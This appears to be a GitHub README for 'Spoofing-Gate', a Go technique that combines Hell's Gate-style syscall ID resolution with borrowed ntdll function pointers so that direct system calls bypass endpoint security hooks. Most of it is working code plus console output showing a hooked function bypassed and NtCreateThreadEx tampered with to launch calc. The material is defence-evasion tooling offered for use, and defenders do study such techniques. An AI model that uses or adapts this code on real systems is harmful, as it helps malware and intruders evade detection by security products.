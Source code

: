 # Spoofing-Gate
(Hellsgate|Halosgate|Tartarosgate)+Spoofing-Gate. Ensures that all systemcalls go through ntdll.dll

https://github.com/timwhitez/Doge-Gabh

- get sysid from "X"gate

- use Spoofing-Gate to get the Spoofing funtion pointer

- call the pointer

- Recover

```
> .\SpfGate.exe
messPtr:0x7ff91ee2e570
Messed up the NTCreateThreadEx function, gl launching calc!
NtAllocateVirtualMemory|(fake)NtQueryInformationTransactionManager: 0x7ff91ee2f710
NtProtectVirtualMemory|(fake)NtEnumerateBootEntries: 0x7ff91ee2e910
You seem to have bypassed a hooked function... congrats (sys ID is: 193)
NtCreateThreadEx|(fake)NtCallbackReturn: 0x7ff91ee2ce00

```



```
//get sysid from "X"gate
alloc,e := gabh.MemHgate(str2sha1("NtAllocateVirtualMemory"),str2sha1)
	if e != nil {
		panic(e)
	}
  
var tmplist []string
tmplist = append(tmplist,[]string{"NtAllocateVirtualMemory"}...)


//use Spoofing-Gate to get the Spoofing funtion pointer
alloctmp,e := spfgate.SpfGate(alloc,tmplist)
if e != nil{
  panic(e)
}
tmplist = append(tmplist,alloctmp.Fakename)
fmt.Printf("NtAllocateVirtualMemory|(fake)")
fmt.Printf(alloctmp.Fakename)
fmt.Printf(": 0x%x\n",alloctmp.Pointer)

//call the pointer
r1, _,_ := syscall.Syscall6(
		alloctmp.Pointer, //ntallocatevirtualmemory
		6,
		handle,
		uintptr(unsafe.Pointer(&baseA)),
		0,
		uintptr(unsafe.Pointer(&regionsize)),
		uintptr(memCommit|memreserve),
		syscall.PAGE_READWRITE,
	)
	if r1 != 0{
		fmt.Printf("1 %x\n", r1)
		return
	}
	
	
//Recover
alloctmp.Recover()


```


